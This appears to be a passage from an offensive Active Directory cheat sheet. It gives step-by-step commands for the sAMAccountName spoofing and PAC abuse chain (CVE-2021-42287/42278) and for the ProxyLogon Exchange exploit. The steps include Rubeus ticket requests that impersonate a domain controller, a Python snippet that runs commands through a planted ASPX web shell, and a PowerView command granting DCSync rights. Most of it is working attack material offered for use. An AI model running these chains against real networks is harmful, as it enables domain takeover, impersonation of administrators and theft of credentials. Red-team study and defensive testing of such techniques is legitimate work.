 #### _DC sAMAccountName spoofing \+ PAC Abuse \(CVE\-2021\-42287/CVE\-2021\-42278\):_
The frist vulnerability allows an attacker to impersonate a domain controller using computer account sAMAccountName spoofing\. The second vulnerability affects the Kerberos Privilege Attribute Certificate \(PAC\) and allows an attacker to impersonate domain controllers\. This makes it possible to impersonate any user on any service on any system in the domain\.
- 1\. Create machine account \([Powermad\.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)\): `$pass = ConvertTo-SecureString 'Password123' -AsPlainText -Force; New-MachineAccount -MachineAccount TestSPN -Password $pass -Domain <domain> -DomainController <FQDN DC> -Verbose`
- 2\. Clear any SPN's on the machine account \(PowerView\): `Set-DomainObject "CN=TestSPN,CN=Computers,DC=hidro,DC=local" -Clear 'serviceprincipalname' -Verbose`
- 3\. Change machine account samaccountname \(Powermad\): `Set-MachineAccountAttribute -MachineAccount TestSPN -Value "<name DC>" -Attribute samaccountname -Verbose`
- 4\. Request a TGT for that newly created machine account \([Rubeus](https://github.com/GhostPack/Rubeus)\): `rubeus.exe asktgt /user:<name DC> /password:Password123 /domain:<domain> /dc:<FQDN DC> /nowrap`
- 5\. Change the machine accounts samaccountname back \(Powermad\): `Set-MachineAccountAttribute -MachineAccount TestSPN -Value "TestSPN" -Attribute samaccountname -Verbose`
- 6\. Request an S4U2self ticket using the retrieved TGT and get an ST encrypted with the DC's key \(for cobalt strike use the 'make\_token' \+ 'kerberos\_ticket\_use' method\) \(Rubeus\): `Rubeus.exe s4u /impersonateuser:Administrator /nowrap /dc:<FQDN DC> /self /altservice:LDAP/<FQDN DC> /ticket:<ticking string> (/ptt) (/nowrap)`
- 7\. It is now possible to perform action under the context of the impersonated account \(e\.g\. DCSync\)
- 8\. \(optional\) delete the created computer account with any obtained elevated privileges\.

#### _ProxyLogon Exchange exploit:_
ProxyLogon \(CVE\-2021\-26855\) is a vulnerability in the Microsoft Exchange Server that allow an attacker to  bypass authentication and impersonating the local administrator\. This exploit is combined with a second vulnerability \(CVE\-2021\-27065\) to get RCE and a third vulnerability \(WriteDACL\) to privesc to DA\. The privilege escalation to DA is possible because of the default high privileged groups \(e\.g\. Exchange Windows Permissions\) that the Exchange computer account is a member of\. These groups have WriteDACL access on the Domain object in Active Directory and therefore allow granting DCSync rights to any account\. 
>This technique requires a valid email address that is known to the target Exchange server\. 
- 1\. Obtain a valid \(domain user\) email address and the FQDN or IP address of the target Exchange server
- 2\. Download and modify the [ExchangeSheller](https://github.com/ZephrFish/Exch-CVE-2021-26855) tool and replace all the code from line 196 to 215 with:
    ```
    payload = "<COMMAND PLACEHOLDER>"
    print("[*] Looks good, executing payload..")
    data=requests.post(shell_url,data={"code":"Response.Write(new
    ActiveXObject(\"WScript.Shell\").exec(\"%s\").StdOut.ReadAll());"%(payload)},verify=False)
    time.sleep(5)
    if "OAB (Default Web Site)" not in data.text:
        print("[-] Failed RCE, either the server is not vulnerable or something is wrong with the payload.")
    else:
        print("[+] Payload executed!")
        print("[+] Output from executed command in CMD: " + data.text.split('Name')[0])
    ```
- 3\. Run the script \(this will place a shell script named "exchmshell\.aspx" in the following folder "C:\\Program Files\\Microsoft\\Exchange Server\\V15\\FrontEnd\\HttpProxy\\owa\\auth\\"\) \(ExhangeSheller\): `sudo python3 ExchangeSheller.py <FQDN/IP exchange server (e.g. exchange.example.com)> <valid email (e.g. user@example.com)>` 
- 4\. If successful, it is now possible to escalate to DA and leverage the default WriteDACL privileges of the Exchange server:
	- 1\. Add DCSync to the Exchange server computer account or any other user/computer account you control \(if you get an "Access is denied" message most likely the modification was still successful\) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)\): `Add-DomainObjectAcl -PrincipalIdentity <name exchange server (e.g. EXCHANGE01)> -Rights DCSync`